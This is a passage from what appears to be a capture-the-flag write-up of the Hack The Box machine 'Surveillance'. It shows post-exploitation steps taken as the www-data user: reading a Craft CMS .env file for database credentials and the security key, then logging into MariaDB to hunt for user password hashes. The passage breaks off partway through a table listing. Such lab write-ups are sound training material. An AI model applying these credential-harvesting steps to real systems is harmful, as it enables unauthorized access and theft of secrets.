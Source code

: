 ```
www-data@surveillance:~/html/craft/web/cpresources$   
```
## Lateral Movement
### Enumeration of environment
From env, we can find credentials for mysql:
```
www-data@surveillance:~/html/craft$ cat .env
# Read about configuration, here:
# https://craftcms.com/docs/4.x/config/

# The application ID used to to uniquely store session and cache data, mutex locks, and more
CRAFT_APP_ID=CraftCMS--070c5b0b-ee27-4e50-acdf-0436a93ca4c7

# The environment Craft is currently running in (dev, staging, production, etc.)
CRAFT_ENVIRONMENT=production

# The secure key Craft will use for hashing and encrypting data
CRAFT_SECURITY_KEY=2HfILL3OAEe5X0jzYOVY5i7uUizKmB2_

# Database connection settings
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=craftdb
CRAFT_DB_USER=craftuser
CRAFT_DB_PASSWORD=CraftCMSPassword2023!
CRAFT_DB_SCHEMA=
CRAFT_DB_TABLE_PREFIX=

# General settings (see config/general.php)
DEV_MODE=false
ALLOW_ADMIN_CHANGES=false
DISALLOW_ROBOTS=false

PRIMARY_SITE_URL=http://surveillance.htb/
```
### Finding password hashes in mysql
Logging in:
```
www-data@surveillance:~/html/craft$ mysql -u craftuser -p
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 3605
Server version: 10.6.12-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
```
For the craftdb database, we see a users table:
```
MariaDB [craftdb]> show tables;
+----------------------------+
| Tables_in_craftdb          |
+----------------------------+
| addresses                  |
| announcements              |
| assetindexdata             |
| assetindexingsessions      |
```